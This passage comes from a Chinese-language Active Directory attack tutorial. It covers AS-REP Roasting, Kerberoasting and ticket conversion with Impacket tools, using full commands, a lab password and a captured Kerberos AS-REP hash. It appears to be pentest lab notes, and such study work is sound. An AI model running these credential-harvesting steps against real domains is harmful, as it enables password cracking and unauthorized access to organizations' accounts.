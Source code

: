 注1：要在域控先开启LDAPS

注2：[domain/]username[:password]  用户密码后不需要@，直接用-dc-ip

# 十四、AS-REP Roasting攻击
攻击者不在域内时，获取指定user.txt文件的用户是否设置了“不需要kerberos预身份验证”的属性，还有设置了该属性账号Hash加密的Login Session Key

```plain
(py38) C:\root> cat users.txt
admin
user1
test1
test2

(py38) C:\root> impacket-GetNPUsers -dc-ip 192.168.30.2 -usersfile users.txt -format john sec.com/
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User test1 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$test2@SEC.COM:9b6163b2b3e67352480eeca5966593b8$baac4faf2ee03dde3548a75d1a1be1888ffe352cd6d03b65ad647caa785951352ea492c1e675a8633e7cfebfb762200a4f39cbd57ef180d4381cec708e806abb5b010f9c43162cf33a387f7a656da84792afb98bcdf40124e361c51ef0f5b99e0f131e05f8aabeb9cca8a2757ecce4b286df0e68e7fc6b803a93c6da1113115c62681406ae219d480698fef8f15155c750c612f9dc72d380cca3167f14b04513745247f7789689ab544ab2d2c90cc1b1f0c609a0f3885b76a9acb35c2a7fc818b828289ed4540498cf2a62b69e22f0b356343d0ddd8f29f0d64ce54a2a0609cab066

(py38) C:\root>
```

# 十五、Kerberoasting攻击（GetUserSPNs）
```plain
(py38) C:\root> impacket-GetUserSPNs -dc-ip 192.168.30.2 sec.com/test1:"Az123456@"
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

ServicePrincipalName          Name   MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  -----  --------  --------------------------  --------------------------  ----------
MySQL/dc1.sec.com:3306/MySQL  test1            2024-08-16 16:11:24.350370  2024-08-18 06:21:34.018313

```

注：添加-outputfile可以自动请求注册于用户下所有SPN的ST

# 十六、票据转换（ticketConverter）
```plain
(py38) C:\root> impacket-ticketConverter administrator.ccache administrator.kirbi
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[*] converting ccache to kirbi...
[+] done

(py38) C:\root> impacket-ticketConverter administrator.kirbi administrator_convert.ccache
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done

(py38) C:\root>

```